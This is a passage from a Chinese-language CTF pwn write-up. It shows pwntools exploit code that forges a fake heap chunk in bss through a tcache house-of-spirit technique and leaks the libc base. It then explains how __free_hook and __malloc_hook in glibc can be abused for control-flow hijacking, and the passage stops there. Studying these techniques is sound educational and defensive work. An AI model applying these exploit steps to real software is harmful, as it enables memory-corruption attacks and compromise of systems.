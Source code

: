 ```python
    malloc(len,p64(addr))
    malloc(len,'a')
    malloc(len,data)

# use aaw to make a fake chunk in bss, and free it to unsorted bin (tcache house of spirit)
name_bss = 0x602060
init(p64(0)+p64(0x501))
aaw(0x50,name_bss+0x500,(p64(0)+p64(0x21)+p64(0)*2)*2)
aaw(0x60,name_bss+0x10,'a')
free()

# use unsorted bin chunk to leak libc
info()
io.recvuntil("Name :"); io.recv(0x10)
libc_addr = u64(io.recv(8)) - 0x3ebca0
log.warn("libc:0x%x"%libc_addr)
io.interactive()
```

这里采用：`io.recvuntil("Name :"); io.recv(0x10)`，而不直接采用：`io.recv(0x16)`的原因是，`Name :`这6个字符和后面的内容是两条语句打印，在远程攻击的时候可能会出现数据先后到达延迟的io问题。至此我们已经成功的泄露libc基址，可以自行gdb调试对比vmmap中的libc基址进行检查。

### 控制流劫持

libc中有很多可以利用的函数指针，比如在[清华校赛THUCTF2019 之 warmup](https://xuanxuanblingbling.github.io/ctf/pwn/2019/10/14/warmup/)题目中，就可以间接的去控制fork函数中的一个函数指针从而控制流劫持。在堆的题目中常用的函数是**__free_hook**和**__malloc_hook**，这俩函数名为啥这么奇怪呢？我们还要从malloc和free的实现说起：

#### libc中的钩子函数

在malloc和free的函数的开始部分，都会去判断是否有相应的钩子函数：

```c
// wapper for int_malloc
void *__libc_malloc(size_t bytes) {
    mstate ar_ptr;
    void * victim;
    // 检查是否有内存分配钩子，如果有，调用钩子并返回.
    void *(*hook)(size_t, const void *) = atomic_forced_read(__malloc_hook);
    if (__builtin_expect(hook != NULL, 0))
        return (*hook)(bytes, RETURN_ADDRESS(0));
...
}
// wapper for int_free
void __libc_free(void *mem) {
    mstate    ar_ptr;
    mchunkptr p; /* chunk corresponding to mem */
    // 判断是否有钩子函数 __free_hook
    void (*hook)(void *, const void *) = atomic_forced_read(__free_hook);
    if (__builtin_expect(hook != NULL, 0)) {
        (*hook)(mem, RETURN_ADDRESS(0));
        return;
    }
...
}
```
